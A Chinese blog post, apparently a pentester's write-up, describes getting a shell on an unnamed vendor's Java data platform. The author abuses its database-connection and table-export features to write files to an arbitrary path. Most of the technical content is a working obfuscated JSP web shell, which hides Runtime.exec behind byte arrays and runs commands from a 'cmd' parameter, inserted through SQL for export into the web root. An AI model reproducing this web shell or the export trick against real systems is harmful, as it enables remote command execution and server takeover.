 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5kAMy_VfRB8OdqtwEErAWw)

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcA5nCQJQ3NZY2DW0cyReHNCgcnZwE99OwFoVZyic1yQlwHb7dFdeF5ODwvciaLicRib0aDu4fgkVmZuA/640?wx_fmt=png)

最近团队在对某个厂商进行测试，辛辛苦苦搞了快一个星期才拿到一个 shell，弟弟太惨了  

### 0x01 开始复现

访问 url 进入登录界面，输入管理密码进入页面

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2RRarjB4ziaFHlSoiaDk57bn2J9TvuvQWBcziaeIjicQHoWQQQzVExSj0UIQ/640?wx_fmt=png)

请装作没有看到我那个失败的 XSS，过了这么久也忘记在哪里改回来了

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2Rc2VMsD52fX37MdyZ8Z6GcJq868NnsLcqTlDPicicjNupMlAH5LiaDByXA/640?wx_fmt=png)

进入页面

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2R6sxfNcBH4DJlrnWg5lR9fsXIia15cFgWOz5tiaPCiazJO1eBalvKYibLYg/640?wx_fmt=png)

我这咋一看，我丢这不是和通某 OA 差不多吗，当初通某 OA 刚发的时候，全是 XSS，越权，SQL 注入，未授权啥的，那时候也是更上了那次风，小赚了一笔

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2RNAqA64jMeuhe12MHBO8LicQXb0KiaU8qbCaWliaC03IBItBibjgPwK9LRQ/640?wx_fmt=png)

好了，不扯皮了，正式开始复现，进入页面后，点击数据准备

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2RCSIE9XVg4QPSfsLxyHRIHtfFfpVT5j9Tibr8r1lswVTSeSpoYS7Xfqg/640?wx_fmt=png)

添加一个业务包，点击进去后发现可以添加数据表

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2Rnqj2OEYTLSLNDV8okUzvvzzyqic9henI01kTQ4Z8z52CN6kB4VvGvmw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2RWCItiac4WrRgQ9licKHOdG8EWz56k8VBicHRemwnqBbYk8rufsiaohwzKw/640?wx_fmt=png)

在一看右上角有一个全局更新，点进入一看，我丢，数据表内容可以任意位置存放

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2Ryyoic4oH4EpibRjULxVDmRS3Z76h6OjRUufTdo09sKZib4ov8ohN36Fxg/640?wx_fmt=png)

看到之后，心想这不就翱翔了嘛，系统管理处好像有个添加数据库连接，这波就直接在本地数据库插入一个马子，在到这里一连接，然后一添加表，在一导出，不就直接 getshell 啦

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2Rmd0QhwPLlqPibrJHVc3apM1PhL205N6M3381XRrRQ7N0qJcDxwc9Pag/640?wx_fmt=png)

直接开始操作，进入本地数据库，选择 phpstuby 创建数据库自带的 sys 数据库，进入在创建一个 test 表

> use sys ; create table test(test varchar(2555) not null);

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff9JaLnDjbxzwynibf0uKia2R5d88ibKexo9FbkhicxZOReIMCjn9929jhogT0W2BJoTyGlI5ITUSNYLw/640?wx_fmt=png)

在数据库中插入木马内容，因为是 java 环境就是插入 jsp 的马子

> insert into test(test) values ('<%if(request.getParameter("cmd")!=null){Class rt = Class.forName(new String(new byte[] { 106， 97， 118， 97， 46， 108， 97， 110， 103， 46， 82， 117， 110， 116， 105， 109， 101 }));Process e = (Process) rt.getMethod(new String(new byte[] { 101， 120， 101， 99 })， String.class).invoke(rt.getMethod(new String(new byte[] { 103， 101， 116， 82， 117， 110， 116， 105， 109， 101 })).invoke(null)， request.getParameter("cmd") );java.io.InputStream in = e.getInputStream();int a = -1;byte[] b = new byte[2048];out.print("
> 
> ```
> ");while((a=in.read(b))!=-1){ out.println(new String(b)); }out.print("
> ```
> 
> ");} %>');
